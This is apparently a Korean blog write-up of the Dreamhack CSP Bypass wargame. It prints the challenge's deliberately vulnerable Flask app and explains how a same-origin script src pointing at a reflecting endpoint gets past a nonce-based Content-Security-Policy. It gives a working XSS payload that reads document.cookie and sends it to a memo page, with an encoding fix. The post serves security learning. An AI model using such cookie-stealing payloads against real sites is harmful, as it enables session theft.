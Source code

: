 ```yaml
---
title: "드림핵 lv.2 - CSP Bypass"
date: 2025-03-17 00:00:00 +0800
categories: [Wargame, Dreamhack]
tags: [cyber security, writeup, dreamhack, web hacking, csp] 
description: 드림핵 CSP Bypass 웹해킹 워게임 풀이
---
```


[https://dreamhack.io/wargame/challenges/435/](https://dreamhack.io/wargame/challenges/435/)
# 문제 설명
Exercise: CSP Bypass에서 실습하는 문제입니다.

---
# 문제 풀이
## 웹사이트 분석
해당 문제는 이 전에 풀이했던 [XSS Filtering Bypass](https://hoonsooni.com/posts/dreamhack_xss_filtering_bypass/)와 [XSS Filtering Bypass Advanced](https://hoonsooni.com/posts/dreamhack_xss_filtering_bypass_advanced/) 동일한 웹사이트를 가지고 있어서 따로 웹사이트 분석은 하지 않아도 될 것 같다.<br />

```
Content-Security-Policy: 
	default-src 'self'; 
	img-src https://dreamhack.io; 
	style-src 'self' 'unsafe-inline'; 
	script-src 'self' 'nonce-226663aa2eefbac4e463bbcaee9c26ca'
```
문제 설명에 나와있는 것 답게 Header에 전 문제들에선 찾아볼 수 없었던 CSP 정책이 정의돼있다.<br />
이미지 리소스는 `https://dreamhack.io`에서만 받고 스타일 리소스는 본인만 허용하지만 인라인 코드를 사용할 수 있다. 스크립트 또한 본인만 허용하고 nonce 값을 받아서 검열을 거친다.
## 코드 분석
### app.py
```python
#!/usr/bin/python3
from flask import Flask, request, render_template
from selenium import webdriver
from selenium.webdriver.chrome.service import Service
import urllib
import os

app = Flask(__name__)
app.secret_key = os.urandom(32)
nonce = os.urandom(16).hex()

try:
    FLAG = open("./flag.txt", "r").read()
except:
    FLAG = "[**FLAG**]"

def read_url(url, cookie={"name": "name", "value": "value"}):
    cookie.update({"domain": "127.0.0.1"})
    try:
        service = Service(executable_path="/chromedriver")
        options = webdriver.ChromeOptions()
        for _ in [
            "headless",
            "window-size=1920x1080",
            "disable-gpu",
            "no-sandbox",
            "disable-dev-shm-usage",
        ]:
            options.add_argument(_)
        driver = webdriver.Chrome(service=service, options=options)
        driver.implicitly_wait(3)
        driver.set_page_load_timeout(3)
        driver.get("http://127.0.0.1:8000/")
        driver.add_cookie(cookie)
        driver.get(url)
    except Exception as e:
        driver.quit()
        # return str(e)
        return False
    driver.quit()
    return True

def check_xss(param, cookie={"name": "name", "value": "value"}):
    url = f"http://127.0.0.1:8000/vuln?param={urllib.parse.quote(param)}"
    return read_url(url, cookie)

@app.after_request
def add_header(response):
    global nonce
    response.headers[
        "Content-Security-Policy"
    ] = f"default-src 'self'; img-src https://dreamhack.io; style-src 'self' 'unsafe-inline'; script-src 'self' 'nonce-{nonce}'"
    nonce = os.urandom(16).hex()
    return response

@app.route("/")
def index():
    return render_template("index.html", nonce=nonce)

@app.route("/vuln")
def vuln():
    param = request.args.get("param", "")
    return param

@app.route("/flag", methods=["GET", "POST"])
def flag():
    if request.method == "GET":
        return render_template("flag.html", nonce=nonce)
    elif request.method == "POST":
        param = request.form.get("param")
        if not check_xss(param, {"name": "flag", "value": FLAG.strip()}):
            return f'<script nonce={nonce}>alert("wrong??");history.go(-1);</script>'

        return f'<script nonce={nonce}>alert("good");history.go(-1);</script>'

memo_text = ""

@app.route("/memo")
def memo():
    global memo_text
    text = request.args.get("memo", "")
    memo_text += text + "\n"
    return render_template("memo.html", memo=memo_text, nonce=nonce)

app.run(host="0.0.0.0", port=8000)
```
코드도 이 전과 크게 다른 부분은 없고 단지 스크립트의 nonce를 확인하는 부분이 추가된 것 같다.
## 최종 풀이
nonce 값은 매번 완전 랜덤으로 설정되기 때문에 예측하는 것은 불가능하고 16자리의 랜덤 문자열이라서 Brute Forcing으로 시도하는 것도 사실 말이 안되기 때문에 다른 방법을 생각해봐야 한다.<br />
### script가 허용되는 페이지
```
script-src 'self' 'nonce-226663aa2eefbac4e463bbcaee9c26ca'
```
CSP 정의 부분을 다시 살펴보면 self 도메인에서 사용하는 script 태그는 허용하지만 외부에서 오는 스크립트는 nonce 값으로 검열을 한다.<br />

그렇기 때문에 해당 웹서비스 자체에서 스크립트를 실행하는 시도를 해야한다.<br />

잘 알다시피 /vuln 페이지는 param 값으로 들어오는 스크립트를 실행해주는 페이지이다.<br />
그래서 해당 페이지를 그대로 이용하면 다음과 같은 페이로드가 떠오를 수 있다. `<script src="/vuln?param=alert(1)"></script>`.<br />

이렇게 script의 src 속성을 이용해서 /vuln 페이지의 소스코드를 사용하는 방식을 써야한다.
### 페이로드
```
<script src="/vuln?param=document.location='/memo?memo='+document.cookie"></script>
```
이 전에 사용했던 익숙한 스크립트를 /flag 페이지의 인풋으로 보내고 /memo 페이지에 접속해서 플래그를 얻을 수 있다.
#### 간과한 점
```
<script src="/vuln?param=document.location='/memo?memo='%2bdocument.cookie"></script>
```
사실 처음 제공된 스크립트를 업로드 해보면 플래그는 나오지 않는 것을 알 수 있다.<br />
그 이유는 우리가 src 속성에 /vuln이라는 페이지를 입력했는데 이는 URL 주소이다. URL 주소에는 특수 문자에 대한 적절한 URL 인코딩이 필요하다.<br />

여기서 필요한 인코딩은 `document.cookie` 바로 이 전에 `+`를 `%2b`로 변환하는 것이다.<br />

이제 스크립트가 제대로 작동할 것이다.
# 배운 것
CSP라는 개념에 대해 처음 알게 됐고 nonce가 있을 때에 우회하는 시나리오 중 하나를 경험할 수 있었다.